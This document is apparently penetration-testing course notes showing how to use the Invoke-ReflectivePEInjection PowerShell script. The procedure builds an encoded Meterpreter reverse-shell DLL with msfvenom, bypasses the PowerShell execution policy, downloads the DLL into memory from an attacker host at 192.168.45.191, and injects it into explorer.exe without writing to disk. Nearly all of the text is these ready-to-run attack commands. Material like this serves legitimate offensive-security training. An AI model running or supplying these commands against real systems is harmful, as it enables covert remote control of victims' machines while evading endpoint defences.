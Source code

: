 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# How to use
1. Create a DLL payload using msfvenom and upload it to the target machine:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```

1. To use `Invoke-ReflectivePEInjection`, we must first upload the script to the target machine and import it from its location with Import-Module:
```powershell
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```

1. Next we will load the DLL into a byte array and retrieve the explorer process ID and :
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```

1. Finally, supply the byte array (-PEBytes) and process ID (-ProcId) and execute the script
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
